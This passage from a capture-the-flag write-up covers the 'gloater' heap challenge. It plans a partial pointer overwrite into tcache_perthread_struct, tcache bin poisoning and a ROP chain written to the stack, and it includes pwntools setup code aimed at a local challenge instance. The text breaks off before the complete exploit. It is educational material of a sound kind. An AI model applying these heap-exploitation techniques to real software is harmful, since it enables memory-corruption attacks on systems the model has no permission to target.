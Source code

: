 And we are debugging the remote instance. We're also going to quickly grab the libc from the Docker image:

```sh
$ docker cp gloater:/usr/lib/x86_64-linux-gnu/libc-2.31.so .
```

## Plan

So, we have a pointer overwrite. That's essentially our entire vulnerability! But what can we do with it?

We could, hypothetically, overwrite the pointer to somewhere that we would like to write to - the stack, or libc, as those are our two leaks. There are issues with both of these.

Firstly, there is no `edit()` feature - you can only `free()` the pointer we overflow into. Yes, later we _can_ `create_taunt()` to reuse the same chunk after freeing it, but that occurs *before* our stack leak - so we can't write a stack address. We can only write a libc address - which we can't free or malloc to anyway, due to the hooks. And we can't overflow twice, as we can only change our name once.

The approach we'll take here is to partial overwrite the pointer with the address of the `tcache_perthread_struct` on the heap. We have a 1/16 chance of bruteforcing the 4th-last hex character correctly. Once we have a pointer there, we can free it, then create another chunk to be allocated there. We can then overwrite the head of any bin with a stack address, so our next allocation writes a ropchain to the stack!

## Leaking

First, some basic setup:

```python
from pwn import *

elf = context.binary = ELF('./challenge/gloater')
libc = ELF('./libc-2.31.so')
p = remote('127.0.0.1', 9001)

def change_user(name):
    p.sendlineafter(b'> ', b'1')
    p.sendafter(b'New User: ', name)
    p.recvuntil(b'Old User was ')
    return p.recvuntil(b'...', drop=True)

def create_taunt(target, description):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'target: ', target)
    p.sendlineafter(b'Taunt: ', description)

def remove_taunt(idx):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b'Index: ', str(idx).encode())

def set_super_taunt(idx, description):
    p.sendlineafter(b'> ', b'5')
    p.sendlineafter(b'Taunt: ', str(idx).encode())
    p.sendlineafter(b'taunt: ', description)
```
